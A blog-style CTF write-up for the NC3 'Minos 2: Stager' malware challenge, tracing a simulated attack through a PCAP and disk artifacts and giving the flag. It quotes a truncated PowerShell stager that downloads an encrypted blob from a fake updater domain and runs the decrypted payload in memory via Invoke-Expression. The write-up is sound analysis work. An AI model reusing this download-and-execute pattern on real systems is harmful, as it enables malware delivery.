


+++
title = 'Minos 2: Stager'
categories = ['Malware']
tags = ["CTF", "NC3", "Malware"]
date = 2025-12-12T20:10:00+01:00
scrollToTop = true
author = "Loff"
+++

## Challenge Name:

Minos 2: Stager

## Category:

Malware

## Challenge Description:
```text
Det virker til, at Sarpedons angrebskæde består af en række stages op til det faktiske angreb. Første step i en sådan kæde er ofte en lille stager, hvis eneste opgave er at hente næste stage. Det kan gøre angrebet mere modulært og hjælpe med at undgå detection.

Find ud af, hvordan Sarpedon starter deres angrebskæde!

⚠️⚠️⚠️
MALWAREN SIMULERER ÆGTE MALWARE,
ANALYSER OG KØR KUN I ET KONTROLLERET MILJØ
⚠️⚠️⚠️

OBS: Bruger samme filer som Minos 1: Initial Access
```
[Minos 1: Initial Access](../minos-1-initial-access/index.md)

## Approach 

After finishing Minos 1, I realized I had not yet looked at the provided network traffic capture at all.
Since stagers often communicate externally to retrieve follow-up payloads, this was the obvious next step.

I opened the file in [Wireshark](https://www.wireshark.org/) to inspect the traffic.


## Inspecting the PCAP

The capture contains a significant amount of encrypted traffic, which is expected and not immediately useful.
However, Wireshark allows extraction of all reconstructed HTTP objects via:

```text
File -> Export Objects -> HTTP
```

This produced a list of downloaded resources:



Among them, one filename stood out immediately:
```text
l04d3r.bin
```

That name strongly suggests a loader, which neatly lines up with the next challenge in the series.

Let's figure out what downloaded that.

## Correlating with disk artifacts

To confirm how `l04d3r.bin` was fetched, I searched the disk image in Autopsy for references to the filename.



This revealed [PowerShell-related artifacts](files/powershell-stager.txt) referencing the same URL, strongly indicating that:

* `l04d3r.bin` was downloaded via PowerShell
* The script was likely triggered by execution of the malware from `Gaveregn.zip` in Minos 1

## The PowerShell stager

The recovered PowerShell script looks like this (truncated here for clarity):
```powershell
$key = [Convert]::FromBase64String(
  "TkMze2M0bl9uM3Yzcl9yM20zbWIzcl9zdDNnMF92c19zdDRnM3JfczBfMV9tNGRlXzRfc3QzZzAtc3Q0ZzNyfQ=="
)

$blob = $wc.DownloadData(
  "http://w1ndowsl1veupdater.nc3/dl/l04d3r.bin"
)

# Verify HMAC
# Decrypt AES-CBC payload
# Invoke decrypted PowerShell
Invoke-Expression ([Text.Encoding]::UTF8.GetString($pt))
```

At a high level, the stager:
* Downloads an encrypted blob (l04d3r.bin)
* Verifies integrity using HMAC-SHA256
* Decrypts the payload using AES-256-CBC
* Executes the decrypted content in memory

This is a textbook PowerShell stager design.

## Extracting the Flag

For this challenge, we do not need to fully reverse the cryptography or execute the script.

The key material is embedded directly in the script as a Base64 string:

```powershell
$key = [Convert]::FromBase64String("TkMze2M0bl9uM3Yzcl9yM20zbWIzcl9zdDNnMF92c19zdDRnM3JfczBfMV9tNGRlXzRfc3QzZzAtc3Q0ZzNyfQ==")
```

Decoding it yields:
```text
NC3{c4n_n3v3r_r3m3mb3r_st3g0_vs_st4g3r_s0_1_m4de_4_st3g0-st4g3r}
```

## The Intended Path (Post-Solve Insight)

After solving the challenge and discussing it with others, it became clear that this solution skipped a large intended step.

The intended chain was approximately:
* Extract Gaveregn.zip using the password found in the Discord cache (Minos 1)
* Run the bundled Python “game”
* The game:
  * Downloads “background assets”
  * Extracts least significant bits (LSBs) from images
  * Stores hidden data during gameplay
  * Reassembles those bits at the end of the game
  * The recovered data:
    * Produces the PowerShell stager
    * Which then downloads l04d3r.bin

This explains the flag text referencing stego vs stager, the stager itself was hidden via steganography.

## Flag
```text
NC3{c4n_n3v3r_r3m3mb3r_st3g0_vs_st4g3r_s0_1_m4de_4_st3g0-st4g3r}
```

## Reflections and Learnings

This challenge highlights several important malware analysis concepts:

* Stagers are minimal by design
Their job is not persistence or data theft—only delivery.

* Defense through layering
Steganography + encryption + in-memory execution dramatically increases analysis cost.

* Network traffic often reveals what disk analysis doesn’t
PCAPs are invaluable for reconstructing multi-stage attacks.

* Multiple valid solution paths
While the intended path was elaborate, correlating disk artifacts with network traffic still led to the correct conclusion.

* Realistic trade-offs
Analysts often choose the fastest correct path, not the most elegant one.

## Next up

Next part in this series can be found in [Minos 3: Loader](../minos-3-loader/index.md)